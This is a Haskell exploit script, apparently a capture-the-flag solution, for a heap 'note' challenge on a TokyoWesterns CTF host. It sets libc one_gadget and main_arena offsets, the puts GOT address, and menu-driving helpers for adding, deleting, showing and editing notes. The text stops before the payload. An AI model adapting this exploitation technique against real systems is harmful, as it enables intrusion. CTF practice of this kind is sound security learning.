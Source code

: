 ```haskell
#!/usr/bin/env stack
-- stack --stack-yaml ./stack.yaml runghc --package pwn

{-# LANGUAGE OverloadedStrings #-}

import           Control.Monad
import           Data.Bits
import qualified Data.ByteString.Char8 as BS
import           Data.Maybe
import           Data.Monoid           ((<>))
import           Numeric               (showHex)

-- https://github.com/Tosainu/pwn.hs
import           Pwn

showByteString :: (Show a) => a -> BS.ByteString
showByteString = BS.pack . show

main :: IO ()
main = do
  -- r <- remote "192.168.122.10" 4000
  -- let libc_main_arena' = 0x3a5620
  --     libc_one_gadget' = 0x41374

  -- r <- remote "172.17.0.2" 4000
  r <- remote "pwn1.chal.ctf.westerns.tokyo" 16317
  let libc_main_arena' = 0x003c4b20
      libc_one_gadget' = 0x4526a

  let list      = 0x006020c0

      puts_got  = 0x00602020

      addNote size str = do
        recvuntil r "Your choice: \n"
        sendline r "1"
        recvuntil r "Please input the size: \n"
        sendline r $ showByteString size
        recvuntil r "Please input your note: \n"
        send r str

      deleteNote idx = do
        recvuntil r "Your choice: \n"
        sendline r "2"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx

      showNote idx = do
        recvuntil r "Your choice: \n"
        sendline r "3"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx
        recvuntil r "Note: \n"
        buf <- recvuntil r "\n===="
        return $ BS.take (BS.length buf - BS.length "\n====") buf

      editNote idx str = do
        recvuntil r "Your choice: \n"
        sendline r "4"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx
        recvuntil r "Please input your note: \n"
        send r str
```